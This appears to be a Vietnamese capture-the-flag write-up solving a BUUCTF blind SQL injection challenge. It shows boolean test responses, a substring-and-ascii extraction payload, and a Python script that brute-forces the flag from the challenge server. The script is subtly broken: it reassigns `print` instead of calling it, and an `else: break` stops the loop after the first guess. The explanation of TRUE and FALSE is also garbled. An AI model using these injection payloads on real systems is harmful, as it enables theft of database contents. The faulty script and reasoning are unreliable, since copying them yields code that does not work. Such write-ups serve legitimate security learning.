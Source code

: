 Challenge cho ta 1 form để sumbit, và cho biết table, column là `flag`. Sau đó mình thử sumbit đại 

```
id = 1 ---> Hello, glzjin wants a girlfriend.
id = 2 --->  Do you want to be my girlfriend?
id = 3,4,..... ---> Error Occured When Fetch Result.
```
Bởi vì bài này có tag là sql nên mình thử fuzz một vài payload.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/840a05dd-5ea1-457b-a79e-f7ee2fe53e67)

Nhưng mà bị filter gần hết. Sau đó thì mình có thử boolean

```
1=1 ---> Hello, glzjin wants a girlfriend. /// 	select * from abc where id = 1 = 1 /// select * from xxx where id = 1 = TRUE;

1=2 ---> Error Occured When Fetch Result.
1=0 --->  Do you want to be my girlfriend? /// select * from abc where id = 1 = 0 /// select * from xxx where id = 1 = FALSE;
```

Bởi vì là trong SQL 1 là TRUE và 2 là FLASE. Như vậy khi mình nhập 1=1 có nghĩa là `1=TRUE` thì trả về `id=1`, còn với 1=0 nghĩa là `id=1=Fasle` nên trả về `id=2`.Bởi vì 2 chỉ là 1 số bình thường nên khi nhập `1=2` sẽ trả về lỗi

Payload:
`1=(ascii(substr((select(flag)from(flag)),1,1))=100)`

Kết quả trả về là ` Do you want to be my girlfriend?` là FALSE nên payload này đúng.

```python
import requests
s = requests.session()
url = "http://a146b56f-b5b5-4d88-a61c-492aff01376a.node4.buuoj.cn:81/index.php"
pos = 0
flag = ''
while True:
    pos += 1
    for i in range(45,127):
        payload = f"1=(ascii(substr((select(flag)from(flag)),{pos},1))={i})"
        print = ("testing"+chr(i))
        r = s.post(url, data={'id':payload})
        if "glzjin" in r.text:
            flag+=chr(i)
            break
        else:
            break
        print(flag)

```
